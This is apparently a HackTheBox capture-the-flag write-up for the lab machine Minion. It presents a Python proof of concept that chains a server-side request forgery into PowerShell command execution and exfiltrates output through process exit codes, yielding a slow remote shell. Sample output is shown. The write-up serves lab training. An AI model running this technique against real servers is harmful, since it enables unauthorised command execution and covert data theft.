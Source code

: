 ```yaml
---
layout: post
title:  "HackTheBox - Minion Error Code Exfiltration"
date:   2018-04-16 01:00:00 +0100
categories: [hackthebox]
description: "For I was Blind but now I see!"
image:
  feature: minion.jpg
  credit:

---
```


This is a writeup of an alternative technique for [Minion](https://www.hackthebox.eu/home/machines/profile/109), which involves exfiltrating data via error codes. All credits for this technique go to [@m0noc](https://twitter.com/overtsecrecy) who actually made this work and used it to pwn Minion.

The Situation
-------------
In Minion we had command execution which returned the exit code of the command called. 0 for success and 1 for failure. In reality, the exit code is entirely controllable by the caller of any process. e.g.
```
PS C:\Users\Booj> powershell -c 'exit 1234'
PS C:\Users\Booj> echo $lastexitcode
1234
```
The error code is a 32 bit signed integer so we have a maximum of 4 bytes. Since a character only takes up a single byte (ascii), we can encode any sequence of characters within a sequence of error codes.

Proof of Concept
--------------
In this proof of concept we run a command and save the result to a file, returning as the first exit code the length of the result. We then sequentially send commands to fetch and output each 4 byte sequence as an error code, decoding on our end and yielding a basic shell.
```python
import requests
import sys
import urllib2

'''
Command Creation
'''
def get_cmd_length(command):
    cmd =  '$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
    return cmd

def error_exfil(command, output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd

def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')

'''
Command Sending and Receiving
'''

def run_on_minion(command):

    url = 'http://10.10.10.57:62696' 
    base_url = "/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=" 
    pshell = "powershell -Command \"{0}\"".format(command)
    req = requests.get(url+base_url+urllib2.quote(pshell)) 
    #TODO filter this properly 
    result = req.text 
    error_code = [x.split('=')[1] for x in result.split('\n') if "Exit Status" in x][0]
    return error_code 

'''
Main Loop
'''

def main():
    while True:
        cmd = raw_input('PS>')
        len_cmd = get_cmd_length(cmd)
        length_of_command = run_on_minion(len_cmd)
        for torun in error_exfil(cmd, length_of_command):
            errorval = run_on_minion(torun)
            decodedval = decode_error(errorval)
            sys.stdout.write(decodedval)
            sys.stdout.flush()
        sys.stdout.write('\n')
        sys.stdout.flush()


if __name__ == '__main__':
    main()
```
It should work as is and give us a very slow shell!
```
root@kali:~# python minionerr.py 
PS>whoami
iis apppool\defaultapppool
There are probably ways to improve it, but for now this works as a basic poc.
```
That's all folks!
